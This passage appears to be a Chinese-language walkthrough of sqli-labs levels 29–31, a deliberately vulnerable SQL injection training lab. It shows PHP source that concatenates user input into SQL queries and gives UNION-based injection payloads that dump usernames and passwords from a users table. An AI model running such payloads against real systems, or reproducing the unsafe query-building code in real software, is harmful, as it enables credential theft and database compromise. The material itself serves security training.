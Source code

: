 ```php
        }
}

// The function below immitates the behavior of parameters when subject to HPP (HTTP Parameter Pollution).
function java_implimentation($query_string)
{
        $q_s = $query_string;
        $qs_array= explode("&",$q_s);

        foreach($qs_array as $key => $value)
        {
                $val=substr($value,0,2);
                if($val=="id")
                {
                        $id_value=substr($value,3,30); 
                        return $id_value;
                        echo "<br>";
                        break;
                }

        }

}
```

payload

```
-1'+union+select+1,user(),(select+group_concat(username,':',password)+from+users)--+
```

## less-30 waf

```php
$id = '"' .$id. '"';
// connectivity 
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

双引号闭合

```
-1"+union+select+1,user(),(select+group_concat(username,':',password)+from+users)--+
```

## less-31

```php
$id = '"'.$id.'"';
// connectivity 
$sql="SELECT * FROM users WHERE id= ($id) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```
